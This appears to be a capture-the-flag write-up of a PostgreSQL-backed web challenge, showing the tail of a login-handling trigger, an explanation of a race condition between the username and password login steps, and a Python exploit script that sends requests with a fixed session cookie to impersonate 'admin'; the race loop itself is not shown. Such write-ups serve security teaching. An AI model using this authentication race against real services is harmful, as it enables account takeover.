 ```sql
    PERFORM web.respond_with_redirect(NEW.uid, '/login/password');
  END IF;

  RETURN NEW;
END;
$$ LANGUAGE plpgsql;

CREATE TRIGGER route_post_login_password
  BEFORE INSERT
  ON web.request
  FOR EACH ROW
  WHEN (NEW.path = '/login/password' AND NEW.method = 'POST')
  EXECUTE PROCEDURE web.handle_post_login_password();

```

There is a **Race Condition** vulnerability.

login process:

1. `POST /login` set a uuid to the session and bind user with our input `username`
2. `POST /login/password` find the user password in db with corresponding uuid in the session, and compare with our input `password`
3. if two passwords are the same, it will update `logged_in=TRUE`

if we run step 1 between step 2 and step 3, we can change our user to arbitrary user and pass the password authentication.


exploit:


```python
'''
1. LOGIN as kaibro
2. POST /login with same `session` cookie but different username
'''

import threading
import time
import requests

host = "http://triggered.pwni.ng:52856"

def init(user, sess):
    r = requests.get(host + "/logout", cookies={"session":sess})
    setuser(user, sess)

def setuser(user, sess):
    r = requests.post(host + "/login", data={"username": user}, cookies={"session":sess})
    #print(r.headers)
    #print(r.text)

def login(pwd, sess):
    r = requests.post(host + "/login/password", data={"password": pwd}, cookies={"session": sess})
    print(r.headers)
    print(r.text)
    if "admin" in r.text:
        print("Fuckkkkkkk!")


sess = "d505bb4f-343e-47e1-a589-aacb3a4f85c3"
user = "kaibro"
target = "admin"
pwd = "kaibro"

#login(pwd, sess)
```